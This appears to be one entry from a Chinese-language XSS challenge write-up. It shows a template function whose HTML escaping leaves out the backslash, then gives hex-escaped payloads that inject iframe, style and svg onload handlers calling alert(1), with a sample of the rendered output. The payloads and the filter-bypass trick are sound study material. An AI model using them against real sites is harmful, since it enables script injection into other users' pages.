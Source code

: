 <a name="a009"/></a>
### Template (24)
```javascript
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g, 
        function(_, n) { 
           return htmlEscape(args[n]);
         });
  }
  
  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```
注入的地方在`<a href=#>{name}</a>`中的`{name}`字段，对`< > & " '`字符进行了转义，但是没有转义`\`字符，于是利用十六进制构建payload
```html
\x3ciframe/onload=alert(1) 
```
Output
```html                                       
      <h2>Hello, <span id=name></span>!</h2>         
      <script>                                       
         var v = document.getElementById('name');    
         v.innerHTML = '<a href=#>\x3ciframe/onload=alert(1) </a>';       
      </script>                                   
```
2018-10-12更新
26字符
```html
\x3cstyle/onload=alert(1) 
```
24字符，浏览器FireFox 52.6.0
```html
\x3csvg onload=alert(1) 
```

